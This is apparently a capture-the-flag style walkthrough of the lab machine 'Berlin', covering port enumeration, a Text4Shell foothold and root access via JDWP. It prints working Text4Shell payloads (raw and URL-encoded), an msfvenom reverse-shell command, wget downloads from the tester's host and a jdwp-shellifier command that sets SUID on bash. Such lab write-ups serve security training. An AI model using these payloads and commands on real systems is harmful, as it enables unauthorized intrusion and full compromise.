# BERLIN

## Enumeration

```
Nmap scan report for berlin.oscp (192.168.235.150)
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ad:ac:80:0a:5f:87:44:ea:ba:7f:95:ca:1e:90:78:0d (ECDSA)
|_  256 b3:ae:d1:25:24:c2:ab:4f:f9:40:c5:f0:0b:12:87:bb (ED25519)
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
|_http-favicon: Spring Java Framework
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: application/json;charset=UTF-8
|     Date: Sun, 04 Aug 2024 00:02:39 GMT
|     Connection: close
|     {"timestamp":"2024-08-04T00:02:39.841+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/plain;charset=UTF-8
|     Content-Length: 19
|     Date: Sun, 04 Aug 2024 00:02:39 GMT
|     Connection: close
|     {"api-status":"up"}
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Sun, 04 Aug 2024 00:02:39 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 830
|     Date: Sun, 04 Aug 2024 00:02:39 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1
|   Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 800
|     Date: Sun, 04 Aug 2024 00:02:39 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|_    Request</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=8/3%Time=66AEC51F%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,98,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/plain;char
...
SF:erif;color:white;background-color:#525D76;}\x20p\x20{font-family:Tahoma
SF:,Arial,sans-serif;background:white;color:black;font-size:12px;}\x20a\x2
SF:0{color:black;}\x20a\.name\x20{color:black;}\x20\.line\x20{height:1px;b
SF:ackground-color:#525D76;border:none;}</style></head><body");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/3%OT=22%CT=1%CU=36967%PV=Y%DS=4%DC=T%G=Y%TM=66AEC
OS:53A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1
OS:=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11NW
OS:7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=
OS:Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=
OS:6513%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
-   Hops 1-3 are the same as for 192.168.235.149
4   52.33 ms berlin.oscp (192.168.235.150)
```

### Port 8080

#### API Enumeration

When I first come to the port I find something that indicates an API is here:

<figure><figcaption><p>Landing page on port 8080</p></figcaption></figure>

I spent awhile trying to figure out the API. I fuzzed it with `ffuf` and found the `/search/` endpoint:

<figure><figcaption><p>Finding the search input</p></figcaption></figure>

After some messing around I figured out how to make it work with the `?query=` parameter:

<figure><figcaption><p>Search request</p></figcaption></figure>

I could not get any results though. I spent some time trying to find some with `ffuf` but to no avail:

<figure><figcaption><p>Filtering by size was not possible</p></figcaption></figure>

<figure><figcaption><p>RegEx filtering worked by I could find no different results</p></figcaption></figure>

Eventually I determined the API was [Spring Framework](https://docs.spring.io/spring-framework/docs/current/javadoc-api/). [`Spring4shell`](https://github.com/reznok/Spring4Shell-POC) was a variant of Log4shell that I tested but it did not work.

#### Directory Enumeration

Since I could not find anything in the API I decided to treat the port like a normal web server and went back to basics with directory enumeration via `feroxbuster`:


```bash
feroxbuster -L 20 -k -C 404 -r -w dir_enum.txt -u http://berlin.oscp:8080 -o p8080_directory.feroxbuster
```


* `dir_enum.txt` is a copy of Seclists's `directory-2.3-medium.txt`

<figure><figcaption><p>feroxbuster output for port 8080</p></figcaption></figure>

This turned up a `/CHANGELOG/` directory which I visit and find a clue:

<figure><figcaption><p>Contents of CHANGELOG</p></figcaption></figure>

This gives me a solid clue to the technology stack of the API. Given that I cannot seem to find a way to even find a result with the API, exploiting the technology stack seems like the path forward.

## Foothold

I start with a simple [Google search](https://www.google.com/search?q=apache+text+commons+1.8+rce\&client=firefox-b-1-e\&sca\_esv=446c73570a76d288\&sxsrf=ADLYWIKlQbvfGRxI0QENcaD8vXFO8fDmkA%3A1723586803662\&ei=89i7Zt-TKI-90PEP3N-ZmQY\&ved=0ahUKEwif2a-Z\_fKHAxWPHjQIHdxvJmMQ4dUDCA8\&uact=5\&oq=apache+text+commons+1.8+rce\&gs\_lp=Egxnd3Mtd2l6LXNlcnAiG2FwYWNoZSB0ZXh0IGNvbW1vbnMgMS44IHJjZTIGEAAYCBgeMgYQABgIGB4yCxAAGIAEGIYDGIoFMggQABiABBiiBDIIEAAYgAQYogQyCBAAGIAEGKIESMtOUIgJWP5LcAB4ApABAJgB4QKgAe0FqgEHMS4yLjAuMbgBA8gBAPgBAZgCBKAClgXCAgQQABhHwgIEECMYJ8ICCBAhGKABGMMEmAMAiAYBkAYDkgcHMS4yLjAuMaAH9g8\&sclient=gws-wiz-serp) for an exploit for Apache Text Commons 1.8. That leads me to Text4Shell.&#x20;

### Text4Shell

[Text4Shell](https://github.com/kljunowsky/CVE-2022-42889-text4shell) is another Log4Shell variant that attacks the [Apache Commons Text](https://commons.apache.org/text/) [StringSubstitutor Interpolator](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html).

The payload below needs to be submitted via a parameter:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```

This actually needs to be URL-encoded:


```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7d
```


This command actually performs a DNS lookup so I have no way to verify it worked. Unfortunately it seems I do not see the output of the commands so I need to do something that I can detect over a network. I decide to try to use `ping` and observe the ICMP messages via `tcpdump`. I use the same payload:


```
${script:javascript:java.lang.Runtime.getRuntime().exec('ping -c 3 192.168.45.157')}
```


The URL encoding takes some experimentation. I eventually learn that the `-` character must be encoded to `%2d`, but not all characters cause problems. The encoded payload is:


```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27ping%20%2dc%203%20192.168.45.157%27%29%7d
```


When run I can see the pings:

<figure><figcaption><p>ping sent from Burp</p></figcaption></figure>

<figure><figcaption><p>tcpdump observing the pings</p></figcaption></figure>

### File Transfer

I need to figure out a way to get files over to the machine. I try `curl` and `wget` both to no avail. I am attempting to download a text file called `test.txt` in my server's `/tmp` directory at `http://192.168.45.157/tmp/test.txt`.

Eventually I learn that certain characters cause problems for the command and `:` is one of them. It turns out `wget` can be used without a protocol specifier (`http://`) so I can actually download it with the command:

```bash
wget 192.168.45.157/tmp/test.txt
```

I properly encode this and run it and see the machine reaching out in my Apache logs:

<figure><figcaption><p>Seeing the BERLIN machine in the Apache logs</p></figcaption></figure>

### Reverse Shell

Now that I have gained basic command execution I need to get a reverse shell. I decide to download an executable which I create with `msfvenom`:


```bash
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LPORT=8000 LHOST=192.168.45.157 -f elf -o rs
```


I then host it on my web server in the `/tmp` directory. I download it with

```bash
wget 192.168.45.157/tmp/rs -P /tmp
```

This downloads the shell to the victim machine's `/tmp` directory:


```
${script:javascript:java.lang.Runtime.getRuntime().exec('wget 192.168.45.157/tmp/rs -P /tmp')}
```



```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27wget%20192.168.45.157/tmp/rs%20%2dP%20/tmp%27%29%7d
```


From here I need to use `chmod` to make the file executable:

```bash
chmod 777 /tmp/rs
```


```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27chmod%20777%20/tmp/rs%27%29%7d
```


Then I just call the file:

```bash
/tmp/rs
```


```
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27/tmp/rs%27%29%7d
```


This creates a shell:

<figure><figcaption><p>Obtaining a reverse shell</p></figcaption></figure>

User access achieved as `dev`.

## Privilege Escalation

### Enumeration

I start with the usual suspects on `linPEAS` and `pspy`. As I am manually looking around the machine I find a couple items on the internal network interface:

<figure><figcaption><p>Port 5000 and 8000</p></figcaption></figure>

Port 8000 is only listening on `127.0.0.1` but port 5000 is inaccessible from the outside probably due to firewall rules. I am not sure what this means but I file it away for now.

As I am looking through the linPEAS output I find another reference to port 8000:

<figure><figcaption><p>Port 8000 mentioned in linPEAS</p></figcaption></figure>

The process seems to be running [JDWP](https://docs.oracle.com/javase/8/docs/technotes/guides/troubleshoot/introclientissues005.html) which is a Java debugging protocol. The reference also mentions a file at `/opt/stats/App.java` which seems to be the code for whatever is running at port 5000:

<figure><figcaption><p>Source code for port 5000</p></figcaption></figure>

Further this is likely running as `root` because I cannot see the process name in the `netstat -p` output meaning I am not privileged to see it. That could be another user but in this context it likely means `root`.

I find an RCE that works with JDWP called [`jdwp-shellifier`](https://github.com/IOActive/jdwp-shellifier). Normally this would probably be used for initial access but because I think JDWP is running as root, in this case it will be PE.

### Local Port Forwarding With `ligolo-ng`

To use the exploit I need to set up a port forward to the internal network interfaces for this machine. This can be done via `ligolo-ng` as discussed [here](../../../attack-vectors/port-forwarding-and-tunneling/ligolo-ng.md#local-port-forwarding). The example in the `ligolo-ng` section is actually configuring the listener on this exact machine. The commands can be found there but here is a screenshot of the setup:

<figure><figcaption><p>Port forward configuration</p></figcaption></figure>

### Exploiting

Now that I have a port forward set up I can use the exploit. Given the complicated network situation, I decide to try to add SUID to the `bash` binary as `root`. Then I can just use the [GTFOBins technique](https://gtfobins.github.io/gtfobins/bash/#suid) for SUID `bash` and have a stable shell. To add the permissions I will use the command:

```bash
chmod u+s /usr/bin/bash
```

I plug this into the `jdwp-shellifier` prompt:

```bash
python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --cmd 'chmod u+s /usr/bin/bash'
```

This seems to be working but it is waiting for something:

<figure><figcaption><p>Exploit is waiting</p></figcaption></figure>

Perhaps it is just waiting for a connection on the port 5000 that is tied in here. I access that with `nc` and the `240.0.0.1` `ligolo-ng` route. This cause the command to continue and complete seemingly successfully:

<figure><figcaption><p>Completed execution</p></figcaption></figure>

I check that `bash` now has SUID and it does:

```bash
find / -perm -u=s -type f 2>/dev/null | sort
```

